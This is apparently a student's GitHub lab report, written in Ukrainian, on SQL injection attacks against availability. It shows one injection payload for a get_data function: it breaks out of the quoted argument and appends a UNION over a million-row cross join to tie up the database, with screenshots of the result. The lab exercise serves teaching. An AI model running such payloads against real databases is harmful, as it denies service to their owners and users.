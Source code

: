 ### Створити виклики функції з SQL-ін'єкціями з порушень доступності, приклади яких представлені в теоретичних відомостях.
### Створити знімки екранів з результатами виконання викликів функції та розмітити їх у файлі access_results.md у GitHub-репозиторії.

#### Програмний код:
`SELECT * FROM get_data('1'' UNION
(SELECT a1, CAST(a1 AS VARCHAR), CAST(a1 AS INTEGER)
FROM (SELECT generate_series a1 FROM generate_series (1,1000)) t1
CROSS JOIN (SELECT * FROM generate_series (1,1000) t2) t3) -- '); `

![image](https://user-images.githubusercontent.com/56130345/206293279-c6e9e0a2-47fc-4d57-80f1-1708cfed0db5.png)

![image](https://user-images.githubusercontent.com/56130345/206293520-dc04571a-a69c-44ba-9f3c-7be8d1d7cf94.png)

Через 30 секунд:

![image](https://user-images.githubusercontent.com/56130345/206293554-fe076cc6-f67c-435c-931c-8adb572075e8.png)
